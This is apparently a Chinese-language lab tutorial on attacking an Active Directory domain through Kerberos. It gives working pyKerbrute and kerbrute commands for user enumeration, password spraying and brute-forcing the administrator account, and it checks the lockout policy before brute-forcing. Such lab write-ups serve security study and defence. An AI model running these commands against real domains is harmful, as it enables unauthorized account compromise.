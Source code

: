 # 域内用户枚举、密码喷洒、密码爆破

- 域控：192.168.72.163
- 攻击者：192.168.72.162
- 域：hacker.com

### 用户枚举

as-rep 回复状态判断域用户是否存在。

- 用户存在且启用：KDC_ERR_PREAUTH_REQUIRED (需要额外的预认证)。
- 用户存在但禁用：KDC_ERR_CLIENT_REVOKED NT Status：STATUS_ACCOUNT_DISABLED (用户状态不可用)。
- 用户不存在：KDC_ERR_C_PRINCIPAL_UNKNOWN (找不到此用户)。

工具：**pyKerbrute**，项目地址：https://github.com/3gstudent/pyKerbrute。

```
python 编写的枚举工具，支持 tcp 和 udp 两种模式。

#tcp 模式
python2 EnumADUser.py 192.168.72.163 hacker.com /tmp/username.txt tcp

#udp 模式
python2 EnumADUser.py 192.168.72.163 hacker.com /tmp/username.txt udp
```

![image-20241219184245125](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241219184245125.png)

### 密码喷洒

- 爆破是针对一个用户，多个密码验证。
- 喷洒是针对多个用户，单个密码验证。

kerberos 认证 as-req 阶段，用户发送的 as-req 数据包包含用户 hash 加密的时间戳，所以密码喷洒的原理就是使用用户 hash 加密时间戳搭配不同的用户构造出as-req 进行 kerberos 认证。用户 hash 是用户密码使用微软的派生算法派生出来的。

工具：**pyKerbrute**：https://github.com/3gstudent/pyKerbrute。

```
python2 ADPwdSpray.py 192.168.72.163 hacker.com /tmp/Username.txt clearpassword p-0p-0p-0 tcp 
```

![image-20241219184954351](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241219184954351.png)

### 密码爆破

工具：**kerbrute**：https://github.com/ropnop/kerbrute

```
net accounts /domain：查看域控制器上的账户策略信息（这个策略是全局的，表明对域中所有账户适用）
如下显示，表明没有密码锁定策略，可以使用爆破
Lockout threshold： Never
```

```
./kerbrute_linux_amd64 bruteuser --dc 192.168.72.163 -d hacker.com /tmp/password.txt administrator
```

![image-20241219185904974](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241219185904974.png)